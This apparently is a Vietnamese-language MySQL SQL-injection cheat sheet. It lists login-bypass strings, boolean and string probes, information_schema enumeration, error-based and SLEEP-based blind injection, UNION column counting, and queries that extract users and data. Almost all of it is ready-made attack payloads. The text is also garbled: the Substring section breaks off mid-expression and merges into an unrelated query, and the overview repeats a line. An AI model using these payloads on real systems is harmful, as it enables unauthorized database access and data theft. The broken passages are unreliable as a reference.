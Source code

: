 # Tổng quan

- MySQL là một phần mềm mã nguồn mở, chạy trên nhiều nền tảng ( Windows, Mac OS X, Linux, UNIX, z / OS, BSD, Symbian, AmigaOS )
- MySQL có thể kết hợp với mọi ngôn ngữ lập trình khác, thông thường là PHP
- MySQL không cho phép hủy query giữa chừng
- MySQL miễn phí
- Sử dụng Enterprise Manager của Oracle.
- MySQL cung cấp hỗ trợ trên trang web và điện thoại
- Sử dụng Enterprise Manager của Oracle

# MYSQL Testing 

**1.Login**

Query like `SELECT * FROM Users WHERE username = 'Kanye West' AND password = 'Taylor Swift'`

```sql
SELECT * FROM Users WHERE username = '' OR '1' = '1' AND password = '';
SELECT * FROM Users WHERE username = '' OR 1 -- AND password = '';
SELECT * FROM Users WHERE username = "" OR "" = "" AND password = "";
SELECT * FROM Users WHERE username = '' = '' AND password = '';
SELECT * FROM Users WHERE username LIKE '' AND password LIKE '';
SELECT * FROM Users WHERE username = 0-- AND password = '';
```

**2. Numeric**

Query like `SELECT * FROM Table WHERE id = Justin`

```sql
SELECT * FROM Table WHERE id = 123 AND 1;
SELECT * FROM Table WHERE id = 123 AND 0;
SELECT * FROM Table WHERE id = 123 AND true;
SELECT * FROM Table WHERE id = 123 AND false;
SELECT * FROM Table WHERE id = 123 AND (1-false);
SELECT * FROM Table WHERE id = 123 AND (1-true);
```

**3. Strings**

Query like `SELECT * FROM Table WHERE id = 'Kim';`

```sql
SELECT * FROM Table WHERE id = ''';
SELECT * FROM Table WHERE id = '';
SELECT * FROM Table WHERE id = '"';
SELECT * FROM Table WHERE id = '""'; -- "" trả về chuỗi rỗng
```

# String concatenation

```sql
CONCAT('hi','hello')
```

# Comments

```
-- comment ( có khoảng trắng sau -- )
/*comment*/
```

# Database version

```sql
SELECT @@version
```

# Current Database

```sql
SELECT database()
```

# Hostname 

```sql
SELECT @@hostname;
```

# Database contents

```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME'
```

# Conditional errors

```sql
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

# Time delays

```sql
SELECT SLEEP(10)
```

# Conditional time delays

```sql
SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```

# Substring

```sql
SUBSTRING('foobar', dụ
SELECT IF(
    (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = 'tên_cơ_sở_dữ_liệu' AND table_name = 'tên_bảng') > 0,
    SLEEP(10), --  10 giây nếu bảng tồn tại
    'a' -- Nếu không, trả về 'a'
) AS result;
```

# MYSQL Union Based 

**Dò số cột**

- Sử dụng `order by` hoặc `group by`

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

hoặc

```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `UNION SELECT`

```sql
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column
                            #-1' UNION SELECT 1,2,3--+	True
```

- Sử dụng `SELECT * FROM SOME_EXISTING_TABLE` ( phần này hoạt động nếu tính năng hiển thị lỗi được bật )

```sql
1' AND (SELECT * FROM Users) = 1--+ 	#Operand should contain 3 column(s)
                                        # This error means query uses 3 column
                                        #-1' UNION SELECT 1,2,3--+	True
```

- Trích xuất dữ liệu mà không cần biết tên cột

```
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
-- dbname ở đây chỉ là đặt tên cho kết quả truy 
```

# List Users

```sql
SELECT user FROM mysql.user; 
```

# Current User

```sql
SELECT user();
SELECT system_user();
```

